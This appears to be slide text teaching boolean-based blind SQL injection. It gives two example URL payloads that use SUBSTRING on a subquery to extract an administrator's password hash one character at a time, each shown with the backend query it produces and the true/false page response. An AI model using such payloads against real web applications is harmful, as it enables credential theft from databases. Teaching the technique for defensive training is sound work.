

# Boolean-Based Blind SQLi
Users Table:
Administrator	/	e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
Payload:
www.random.com/app.php?id=1	and	SUBSTRING((SELECT	Password	FROM	Users	WHERE	Username	=	'Administrator'),	1,  1)	=	's'
Backend Query:
select	title	from	product	where	id	=1	and	SUBSTRING((SELECT	Password	FROM	Users	WHERE	Username	=  'Administrator'),	1,	1)	=	's'
Nothing is returned on the page	Returned False

Payload:
‘s’ is NOT the first character of the hashed password

www.random.com/app.php?id=1	and	SUBSTRING((SELECT	Password	FROM	Users	WHERE	Username	=	'Administrator'),	1,  1)	=	'e'
Backend Query:
select	title	from	product	where	id	=1	and	SUBSTRING((SELECT	Password	FROM	Users	WHERE	Username	=  'Administrator'),	1,	1)	=	'e'
Title of product id 1 is returned on the page	‘e’ IS the first character of the hashed password
Returned True